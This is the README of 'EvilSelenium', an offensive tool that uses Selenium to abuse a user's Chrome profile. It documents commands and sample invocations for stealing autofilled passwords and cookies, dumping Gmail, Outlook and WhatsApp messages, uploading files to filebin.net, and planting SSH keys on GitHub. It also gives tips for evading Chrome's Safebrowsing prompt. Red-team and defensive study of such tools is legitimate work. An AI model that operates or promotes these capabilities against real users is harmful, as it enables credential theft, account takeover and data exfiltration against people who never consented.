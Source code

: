 # EvilSelenium
EvilSelenium is a beta project that weaponizes <a href="https://www.selenium.dev/">Selenium</a> to abuse Chrome. The current features right now are:

* Steal stored credentials (via autofill)
* Steal cookies
* Take screenshots of websites
* Dump Gmail/O365 emails
* Dump WhatsApp messages
* Download & exfiltrate files
* Add SSH keys to GitHub

Easily extend the existing functionality to suit your needs (e.g. Download files from the user's GDrive/OneDrive).

# Note

1. When this tool is run it will terminate any existing Chrome processes in order to be able to run with the user's Chrome profile which has the passwords & active sessions.

2. I built this tool in about a week & I didn't run as many tests as I should therefore there may be some bugs.

# Usage
	
	EvilSelenium.exe /?

    /help - Show this help menu.

    SETUP:
    /install - Install chromedriver & Selenium webdriver. Run this once.

    RECON:
    /enumsavedsites [out_path] - Check which websites have passwords saved via screenshot(s).
    /screenshot [website] [out_path] - Screenshot a given webpage.

    CREDENTIALS:
    /autorun - Extract saved credentials from common websites.
    /dynamicid [login_page] [username_id] [password_id] - Extract saved credentials from a website, providing the username field ID & password field ID.
    /dynamicname [login_page] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value & password name value.
    /dynamicname2 [login_page] [username_position] [password_position] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value, password name value and their positions.

    COOKIES:
    /cookies [website] - Grabs cookies for a given website.

    MODULES:
    /download [file_url] [seconds] - Downloads a file and specify time to wait for download to finish. File extensions should not be executable.
    /exfil [local_file] [seconds] - Uploads a file on filebin.net and outputs the download link.
    /gmail [out_path] [num_of_emails] - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.
    /outlook [out_path] [num_of_emails] - Fetches emails from Outlook if user is authenticated.
    /o365 [out_path] [num_of_emails] - Fetches emails from O365 Outlook if user is authenticated.
    /github [key] - Add your SSH key to Github if user is authenticated.
    /whatsapp [out_path] - Fetches Whatsapp messages if user is authenticated (BETA).

# Setup

The `/install` command will download the Chrome Driver and Selenium WebDriver which are the necessary requirements. EvilSelenium will work on Chrome versions 98-90.

**Tested on Windows 10, Chrome v97 & v90.**

	EvilSelenium.exe /install

# Recon Module

`/enumsavedsites` - This will take screenshots of chrome://settings/passwords

`/screenshot` - Screenshot any website. If the user is authenticated to the website then you get authenticated screenshots :).

# Credentials Module

**IMPORTANT:** The credentials module will **DELETE COOKIES** in order to steal credentials from autofill. Ideally, you should use the credentials module at the end if you want to export cookies.

`/autorun` - Prebuilt templates for common websites. I'll continue to add more.

`/dynamicid` - Provide the login URL along with the username input field's ID and password field's ID. This is equivalent to document.getElementById().

`/dynamicname` - If the fields don't have IDs, provide the fields' name values. It will pick the first index of the name values. This is equivalent to document.getElementsByName()[0].value.

`/dynamicname2` - Provide the fields' name values along with their index position. This is equivalent to document.getElementsByName()[x].value where x is the provided position.

# Cookies Module

`/cookies` - Dumps cookies from the specified website.

# Misc Modules

These are additional modules I built to demonstrate what sort of actions you can do with Selenium.

`/download` - Download a file & specify time to wait for the download. A non-executable file extension should be appended to the file before downloading to avoid Chrome's Safebrowsing prompt.

`/exfil` - Uploads a file on filebin.net & specify the time to wait for the upload to complete. Once the upload is completed the file's download link is written.

`/gmail` - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.

`/outlook` - Fetches emails from Outlook if user is authenticated.

`/o365` - Fetches emails from O365 Outlook if user is authenticated.

`/github` - Add your SSH key to Github if user is authenticated.

`/whatsapp` - Fetches Whatsapp messages if user is authenticated (BETA).

# Sample Commands
	
	EvilSelenium.exe /screenshot https://mail.google.com c:\users\mr.d0x\downloads
	
	EvilSelenium.exe /dynamicid https://www.hybrid-analysis.com/login login_email login_password
	
	EvilSelenium.exe /dynamicname https://linkedin.com session_key session_password

# Demo

![Example](https://github.com/mrd0x/EvilSelenium/blob/main/demo-1.png)
